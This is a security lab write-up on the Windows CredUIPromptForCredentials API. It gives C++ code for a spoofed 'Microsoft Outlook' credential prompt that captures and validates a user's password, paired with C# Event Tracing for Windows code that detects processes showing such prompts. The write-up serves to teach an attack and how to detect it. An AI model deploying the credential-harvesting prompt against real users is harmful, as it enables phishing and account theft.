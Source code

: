 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	CREDUI_INFO ci = { sizeof(ci) };
	std::wstring promptCaption = L"Microsoft Outlook";
	std::wstring promptMessage = L"Connecting to spotless@offense.local";
	ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
	ci.pszMessageText = (PCWSTR)promptMessage.c_str();

	WCHAR username[255] = {};
	WCHAR password[255] = {};
	DWORD result = 0;

	result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
	if (result == ERROR_SUCCESS)
	{
		HANDLE newToken = NULL;
		BOOL credentialsValid = FALSE;

		credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
		if (credentialsValid)
		{
			// valid credentials provided
		}
		else
		{
			// invalid credentials provided
		}
	}
	else if (result == ERROR_CANCELLED)
	{
		// no credentials provided
	}

	return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using  [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](../../.gitbook/assets/image%20%28574%29.png)

{% hint style="info" %}
The above credential prompt can also be invoked with  PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows \(EWT\)](../../miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:

![](../../.gitbook/assets/image%20%28592%29.png)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](../../.gitbook/assets/image%20%28599%29.png)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C\# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](../../.gitbook/assets/creduipromptforcredentials-detection.gif)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" %}


